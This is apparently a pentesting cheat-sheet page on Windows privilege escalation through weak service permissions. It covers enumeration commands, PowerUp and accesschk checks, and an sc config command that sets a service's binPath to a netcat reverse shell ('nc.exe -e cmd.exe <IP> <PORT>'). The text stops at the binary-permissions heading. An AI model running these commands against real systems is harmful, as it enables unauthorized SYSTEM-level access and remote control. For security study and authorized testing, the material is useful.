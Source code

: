 # Weak Service Permissions

A service running as `NT AUTHORITY/SYSTEM` with incorrect file permissions might allow to escalate privileges. You can replace the binary, restart the service and get system.

```
net start
wmic service list brief
sc query
Get-Service
```

With `PowerUp` we can get the services where the current user can write to its binary path or change arguments to the binary.

```powershell
Get-ModifiableServiceFile -Verbose
```
We can also check the services whose configuration the current user can modify.

```powershell
Get-ModifiableService -Verbose
```
## Modifying the service configuration

Check service permissions with `accesschk` from sysinternals.

```
accesschk -c <service> -l
```

There are another Powershell script that dig a little deeper and print which service rights we have.

* [https://rohnspowershellblog.wordpress.com/2013/03/19/viewing-service-acls/](https://rohnspowershellblog.wordpress.com/2013/03/19/viewing-service-acls/)

```
. .\Get-ServiceAcl.ps1
Get-ServiceAcl -Name service-name | select -ExpandProperty Access
```

And finally modify it.

```
sc stop <service>
sc config <service> binPath="C:\Temp\nc.exe -e cmd.exe <IP> <PORT>"
sc qc <service> #Check correct assigment 
sc start <service>
```

## Binary Permissions

We can also have sufficient rights to modify the binary itself, with `Get-Acl` from powershell we can check it.
